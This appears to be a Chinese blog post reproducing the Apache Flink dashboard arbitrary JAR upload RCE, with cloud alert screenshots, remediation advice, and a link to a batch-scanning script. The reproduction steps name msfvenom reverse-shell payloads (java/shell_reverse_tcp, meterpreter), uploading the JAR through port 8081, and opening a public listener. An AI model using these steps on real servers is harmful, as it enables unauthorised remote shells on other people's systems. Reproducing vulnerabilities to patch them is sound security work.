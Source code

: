 ```yaml
---
layout:     post
title:      Apache Flink任意Jar包上传导致远程代码执行
subtitle:   Apache Flink漏洞复现
date:       2020-08-21
author:     heria
header-img: img/post-bg-coffee.jpg
catalog: true
tags:
---
```




### Apache Flink任意Jar包上传导致远程代码执行

![ ](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200820235954911.png)

### 阿里云主机异常告警特征

![image-20200821101149138](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200821101149138.png)

### 复现

**步骤一**

msfvenom -p java/shell_reverse_tcp 生成反弹shell jar包  或者msfvenom -p java/meterpreter/reverse_tcp配合msf

![image-20200821095427504](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200821095427504.png)



**步骤二**

flink 默认8081/8082端口  add new 上传文件 之后submit

![image-20200821095550530](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200821095550530.png)

**步骤三**

公网机器开启监听 

![image-20200821095351615](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200821095351615.png)

成功复现





### 批量检测脚本

https://github.com/AleWong/Apache-Flink-Web-Dashboard-RCE





### 修复

#### 漏洞影响版本范围

<= 1.9.1

版本升级

https://flink.apache.org/downloads.html

#### 端口访问限制

8081端口访问限制（8082） 



### 参考链接：

https://blog.csdn.net/sun1318578251/article/details/103056168


